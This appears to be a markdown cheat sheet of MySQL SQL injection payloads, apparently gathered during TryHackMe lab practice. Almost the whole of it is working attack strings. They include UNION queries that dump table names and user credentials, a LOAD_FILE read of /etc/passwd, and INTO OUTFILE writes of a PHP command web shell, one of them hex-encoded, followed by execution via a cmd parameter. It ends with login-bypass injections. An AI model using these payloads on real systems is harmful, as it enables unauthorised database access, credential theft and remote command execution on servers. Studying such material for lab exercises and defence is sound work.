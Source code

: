# uploading File with Mysql

Basic:
```
<VALUE>' union select 1, @@version-- -
```
```
<VALUE>' union select 1, table_name FROM information_schema.tables-- -
```

> uploading:
```
<VALUE>' INTO OUTFILE '/var/www/html/shell.php' LINES TERMINATED BY <Sting to Text"php rev shell">#
```
> then go to http://example.com/shell.php?cmd=`<exec>`

> uploading file Says 'Hello from SQLI'
```
<VALUE>'union select 1,'Hello from SQLI' INTO OUTFILE '/var/www/html/shell.php' from webapp.queue-- -
```
>then exec: `curl http://example/shell.php`
# List For Extract Data

1: 
```
12 union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema = database()
```
2: 
```
12 union select 1,group_concat(username,password),3,4 from users   // select what u see in Data //
```
3: 
```
12 union select 1,group_concat(message_content),3,4 from messages    
```
# read files
1: 
```
<VALUE>'union select 1,LOAD_FILE('/etc/passwd') from webapp.queue-- -
```
# command shell
```
<VALUE>'union select 1,'<?php system($_GET['cmd']) ?> INTO OUTFILE '/var/www/html/shell1.php' from webapp.queue-- -
```
# Payload in hex
```
local@local:~/Documents/tryhackme/yearofthedog/logs$ mysql -u root -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
mysql> select hex('<?php system($_GET["cmd"]) ?>');
+------------------------------------------------------------+
| hex('<?php system($_GET["cmd"]) ?>')                       |
+------------------------------------------------------------+
| 3C3F7068702073797374656D28245F4745545B22636D64225D29203F3E |
+------------------------------------------------------------+
1 row in set (0.00 sec)
```
> then exec:
```
<VALUE>'union select 1,unhex('3C3F7068702073797374656D28245F4745545B22636D64225D29203F3E') INTO OUTFILE '/var/www/html/shell1.php' from webapp.queue-- -
```
# Login Page
> try those injeaction
```
username：admin'
password: 1
- Payload
username: admin'-- -
password: 1


```
